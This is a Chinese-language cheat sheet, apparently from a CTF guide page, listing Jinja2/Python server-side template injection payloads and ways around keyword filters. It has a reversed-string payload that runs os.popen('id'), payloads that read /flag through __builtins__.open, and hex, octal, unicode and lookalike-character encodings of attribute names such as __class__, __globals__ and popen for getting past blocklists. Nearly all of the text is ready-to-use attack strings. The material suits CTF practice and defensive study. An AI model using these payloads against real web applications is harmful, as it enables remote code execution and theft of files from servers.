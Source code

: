   ```
  {{cycler['__tini__'[::-1]]['__slabolg__'[::-1]].os.popen('id').read()}}
  ```

- **lower()**

  复制

  ```
  {{sss.__init__.__globals__.__builtins__.open("/FLAG".lower()).read()}}
  ```

- **清空关键字list**

  复制

  ```
  [关键字list变量名].clear()
  open("/flag").read()
  ```

- **16进制**

  复制

  ```
  .__class__ => ["\x5f\x5fc\x6cass\x5f\x5f"]
  ```

- **8进制**

  复制

  ```
  .__class__ => ["\137\137\143\154\141\163\163\137\137"]
  .__base__ => ["\137\137\142\141\163\145\137\137"]
  .__subclasses__ => ["\137\137\163\165\142\143\154\141\163\163\145\163\137\137"]
  .__init__ => ["\137\137\151\156\151\164\137\137"]
  .__globals__ => ["\137\137\147\154\157\142\141\154\163\137\137"]
  .__builtins__ => ["\137\137\142\165\151\154\164\151\156\163\137\137"]
  .__import__ => ["\137\137\151\155\160\157\162\164\137\137"]
  .popen => ["\160\157\160\145\156"]
  .read => ["\162\145\141\144"]
  ```

- **unicode编码**

  复制

  ```
  .__class__ => ["\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f"]
  ```

- **unicode字符 / Non-ASCII Identifies**

  `𝟎𝟏𝟐𝟑𝟒𝟓𝟔𝟕𝟖𝟗𝐚𝐛𝐜𝐝𝐞𝐟𝐠𝐡𝐢𝐣𝐤𝐥𝐦𝐧𝐨𝐩𝐪𝐫𝐬𝐭𝐮𝐯𝐰𝐱𝐲𝐳`

  `𝟘𝟙𝟚𝟛𝟜𝟝𝟞𝟟𝟠𝟡𝕒𝕓𝕔𝕕𝕖𝕗𝕘𝕙𝕚𝕛𝕜𝕝𝕞𝕟𝕠𝕡𝕢𝕣𝕤𝕥𝕦𝕧𝕨𝕩𝕪𝕫`

  `０１２３４５６７８９`

  参考：https://www.compart.com/en/unicode/U+0030
